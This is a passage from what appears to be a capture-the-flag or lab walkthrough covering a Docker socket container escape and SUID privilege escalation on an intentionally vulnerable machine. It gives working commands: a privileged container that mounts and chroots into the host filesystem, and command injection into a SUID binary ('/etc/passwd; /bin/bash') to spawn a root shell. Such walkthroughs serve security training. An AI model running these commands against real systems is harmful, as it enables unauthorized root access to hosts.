 ### 4.2 Docker Socket Exploitation

```bash
# Verify docker access
docker ps

# List available images
docker images

# Create privileged container with host filesystem mounted
docker run -it --privileged --pid=host --net=host --volume /:/host alpine chroot /host bash
```

**Alternative Method - Using Custom Binary**:
```bash
# Use the intentionally vulnerable binary
/usr/local/bin/docker_helper

# This binary runs with SUID permissions and executes docker commands
```

### 4.3 Host Filesystem Access

**After successful container escape**:
```bash
# Now we have host access
whoami  # Should show root or host user
id
pwd     # Should be on host filesystem

# Verify escape success
ls -la /root
cat /etc/hostname  # Different from container hostname
```

---

## ⬆️ Phase 5: Privilege Escalation (30 points)

### 5.1 SUID Binary Exploitation

**Discovery**:
```bash
# Find SUID binaries
find / -perm -4000 -type f 2>/dev/null

# Key finding: /usr/local/bin/check_file
ls -la /usr/local/bin/check_file
# -rwsr-xr-x 1 root root ... /usr/local/bin/check_file
```

**Exploitation**:
```bash
# Analyze binary behavior
/usr/local/bin/check_file /etc/passwd

# Command injection vulnerability
/usr/local/bin/check_file "/etc/passwd; id"
/usr/local/bin/check_file "/etc/passwd; whoami"

# Escalate to root shell
/usr/local/bin/check_file "/etc/passwd; /bin/bash"
```
